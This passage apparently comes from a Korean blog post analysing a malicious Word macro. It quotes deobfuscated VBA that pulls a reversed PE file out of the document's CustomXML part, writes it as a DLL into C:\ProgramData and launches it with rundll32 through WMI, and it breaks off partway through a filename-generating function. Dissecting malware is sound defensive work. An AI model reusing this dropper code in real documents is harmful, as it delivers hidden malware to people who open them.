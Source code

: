 이런 문자열을 얻을 수 있었다. 

## Main 함수 분석 

앞에서 디코딩한 문자열로 코드를 교체해서 분석을 시작해 본다 

```vb
pnjbsrngsgckjayoasd = tylkftcicrjxfvkh(ActiveDocument.CustomXMLParts("http://localhost/").SelectSingleNode("/").Text)
diowrynmsjektmzbl = lcjsxjbkldksstie
raeozmfjnymq "C:\ProgramData\" + diowrynmsjektmzbl, pnjbsrngsgckjayoasd, False
pnjbsrngsgckjayoasd = "C:\ProgramData\"
Set fhfcsnunstz = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set xydisndhrfnkrmnael = fhfcsnunstz.Get("Win32_ProcessStartup")
Set ieupzwunaig = xydisndhrfnkrmnael.SpawnInstance_
Set mpuduxzmupgceh = GetObject("winmgmts:root\cimv2:Win32_Process")
nvplchnzsnuzfpoy = "rundll32" + rrhzspxkphvvy(merrdjtosyhjjuraz) + diowrynmsjektmzbl + ",init"
vdibilucsvcvqrqhgbyy = mpuduxzmupgceh.Create(nvplchnzsnuzfpoy, Null, ieupzwunaig, uyyuhnoffydfft)
```

이제 코드가 정리가 잘 되어보인다. 

### ActiveDocument.CustomXMLParts("http://localhost/").SelectSingleNode("/").Text 

이코드는 OOXML 구조에서 CustomXML 의 http://localhost 부분의 내용을 가져온다는 의미

이 악성코드를 zip으로 확장자를 변경해서 내부를 확인해보면 customXml 디렉터리 내부에 item1.xml 폴더가 있다 
    
```xml
<custom-xml-content xmlns="http://localhost/">핵사값 </custom-xml-content>
```
이런 형태의 xml이 있다. (핵사값은 길이가 길어 생략)

안에 있는 핵사값을 복사해서 HXD프로그램에 넣어서 확인해보면 알수 없는 형태의 파일이 만들어지는데 이 파일의 정체는 마지막 부분을 확인해 보면 알 수 있다. 

![images]({{site.url}}/images/macro-malware/그림2.png)

이 파일의 정체는 거꾸로 되어있는 PE파일이다.

하지만 아직 이 파일이 exe파일인지 dll파일인지 알수는 없다 

다음 코드를 조금 더 분석해 보면 정확한 정체를 알 수 있다. 

### diowrynmsjektmzbl = lcjsxjbkldksstie

이코드에서 lcjsxjbkldksstie는 함수이다. 함수를 실행해 특정 값을 반환하는 코드로 보인다.
```vb
Private Function lcjsxjbkldksstie() As Byte()
Const retkrmjepnvpt = "174165" 'KB
Const kppsxxgzlizwzk = "145167175175" '.dll
Dim bvtmffmapjkqz As Integer
Dim phtlfmyqnkhwagf As Variant
Dim xijjpjosysboevz() As Byte
Dim asertrmporfilkp() As Byte
Dim qbtpnhioyfve() As Byte
Randomize
bvtmffmapjkqz = CInt(Rnd * 100)
If bvtmffmapjkqz > 100 Then
    phtlfmyqnkhwagf = ylpdfpnmlbmswkm
Else
    phtlfmyqnkhwagf = cwqykutktzoyalcwyhbf
End If
bvtmffmapjkqz = Rnd * UBound(phtlfmyqnkhwagf)
xijjpjosysboevz = phtlfmyqnkhwagf(bvtmffmapjkqz)
qbtpnhioyfve = zmzddjxylinzyx(rrhzspxkphvvy(retkrmjepnvpt), xijjpjosysboevz)
ReDim asertrmporfilkp(0 To 1)
asertrmporfilkp(0) = CInt(Rnd * 9 + 48)
```